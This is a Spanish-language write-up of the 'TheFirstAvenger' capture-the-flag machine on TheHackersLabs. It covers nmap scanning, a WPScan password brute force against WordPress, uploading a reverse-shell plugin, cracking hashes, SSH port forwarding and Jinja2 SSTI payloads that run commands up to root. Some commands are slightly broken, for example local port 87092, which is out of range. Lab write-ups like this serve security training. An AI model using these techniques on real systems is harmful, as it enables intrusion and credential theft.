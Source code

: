 # 🛡️ Resolución del CTF "TheFirstAvenger" | The HackersLabs

**Plataforma:** TheHackersLabs  
**Nombre de la máquina:** TheFirstAvenger  
**Dificultad:** Alta  
**Enfoque:** Enumeración web, explotación WordPress, SSTI en Jinja2, port forwarding, escalada a root

---

## 🔍 1. Escaneo de puertos con Nmap

```bash
nmap -p- -- open -sS -sC -sV -- min-rate 5000 -n -vvV -Pn 172.20.10.6 -oN escaneo.txt
```

Servicios detectados:

- 22 → OpenSSH  
- 80 → Apache HTTP

---

## 🌐 2. Análisis del puerto 80 y enumeración

Página WordPress accesible → `/wp-login.php`

Con `gobuster` descubrimos rutas adicionales en `/wp-content`, `/wp-admin`, etc.

---

## 🔍 3. Enumeración WordPress con WPScan

```bash
wpscan -- url http://thefirstavenger.thl/wp1/ \
-- passwords /usr/share/wordlists/rockyou.txt \
-- usernames admin \
-- disable-tls-checks \
-- random-user-agent \
-- max-threads 5 \
-- throttle 1 \
--no-update \
-- no-banner
```

Credenciales válidas encontradas:

- Usuario: `admin`
- Contraseña: `spongebob`

---

## 🔓 4. Acceso al panel de administración

Se sube una reverse shell como plugin (`revshell.php`) y se activa desde el panel admin.

---

## 🧠 5. Acceso por reverse shell

```bash
nc -lvnp 1234
```

Reverse shell conectada desde WordPress con permisos limitados.

---

## 🔐 6. Enumeración de archivos: `wp-config.php`

Se obtienen credenciales de MySQL desde el archivo `wp-config.php`.

Se conecta a MySQL y se accede a la base `topsecret`. Se recuperan hashes de usuarios.

---

## 🔓 7. Cracking de hash

Con `john` y `rockyou.txt` se crackea la contraseña del usuario `steve`.

---

## 💻 8. Acceso SSH como `steve`

```bash
ssh steve@192.168.1.127
```

---

## 🛠️ 9. Detección de puerto interno: 7092

Con `netstat` se detecta un servicio Flask corriendo localmente en el puerto 7092.

---

## 🔄 10. Port Forwarding

```bash
ssh -N -L 87092:127.0.0.1:7092 steve@192.168.1.127
```

Ahora el servicio Flask es accesible en `http://localhost:87092`

---

## 💥 11. Explotación SSTI en Flask (Jinja2)

Input vulnerable a SSTI → se prueba con payloads como:

```jinja
{{7*7}}
{{config}}
{{self._TemplateReference__context.cycler.__init__.__globals__.os.popen('id').read()}}
```

Finalmente se lanza una reverse shell desde la SSTI.

---

## 🚪 12. Acceso como root

Gracias al SSTI ejecutando una shell como root, se obtiene acceso completo:

```bash
whoami
> root
```

---

## 🏁 13. Conclusión

- Enumeración WordPress y explotación vía plugin
- Reverse shell inicial y análisis de configuración
- Acceso a base de datos y crackeo de hash
- Acceso SSH como `steve`
- Port forwarding y explotación de SSTI
- Escalada a root

CTF con múltiples vectores reales y encadenamiento de técnicas web, hash cracking y explotación de SSTI.

